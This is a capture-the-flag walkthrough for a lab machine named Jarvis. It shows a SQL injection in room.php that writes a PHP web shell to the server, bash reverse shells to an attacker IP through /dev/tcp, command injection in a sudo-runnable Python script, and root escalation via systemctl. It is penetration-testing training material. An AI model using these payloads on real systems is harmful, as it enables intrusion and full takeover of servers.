

# Jarvis

### Machine Info


#### Nmap


#### HTTP (Port 80)

Index Page:


###### Gobuster


`phpmyadmin`:

I tried to login with default/common credential but failed to login.

`room.php`:


The `room.php` takes argument `cod` and page shows different result when I change value. This could be vulnerable to `SQL Injection` as I can control the parameter.

#### Exploit: SQL Injection

SQL Injection to check SQL version:
```
http://10.10.10.143/room.php?cod=100%20union%20select%201,2,%20(select%20@@version),4,5,6,7
```


SQL Injection for reverse shell

```
http://10.10.10.143/room.php?cod=100 union select 1,2,"<?php echo shell_exec($_GET['cmd']);>",4,5,6,7 INTO OUTFILE '/var/www/html/test.php'
```

First check for `whoami` command:


It is working fine. Now for reverse shell:</br>
`cmd=bash -c "bash -i >& /dev/tcp/10.10.14.37/4444 0>&1"`


`nc` listener:


#### Privilege Escalation

##### www-data to user

Check for `sudo` privilege:


User `www-data` can run `simpler.py` as user `pepper`. Let's check for `simpler.py`:


I checked the code and found one vulnerability:


The source code have some forbidden characters to prevents command execution but it does not include `$`, `(`, and `)` signs. From the shell, we can execute system command with `$()`. The vulnerability is that when it executes ping command, option `-p`, we can execute our malicious command with `$()`.

I tried to just run command directly like this `$(reverse shell command)` but it didn't work so I just created malicious `.sh` file:
```
# shell.sh
bash -i &> /dev/tcp/10.10.14.37/5555 0>&1
```

And executes with `simpler.py` with `-p` option:


`nc` listener on port `5555`:


##### user to root

During enumeration with simple linux enumeration script, `lse.sh`, I found the interesting binary `/bin/systemctl`:


Only root and group user can execute and user `pepper` in the group `pepper` which means user `pepper` can execute this and it will be executed as root privilege.

Usually, the binary `systemctl` is used to start, stop or restart services such as `apache` web server. Therefore it is generally reserved for root or privileged users as it can make huge impact on system when it is misconfigured.


From google, I searched for this binary and found this page [gtfobins](https://gtfobins.github.io/gtfobins/systemctl/). The page explains how this could be exploited with examples. I modified example to create service which spawn a reverse shell.

First create `root.service` file:


Link and executes:


`nc` listener for `root` shell on port 6666:


And you can get `root.txt` :)
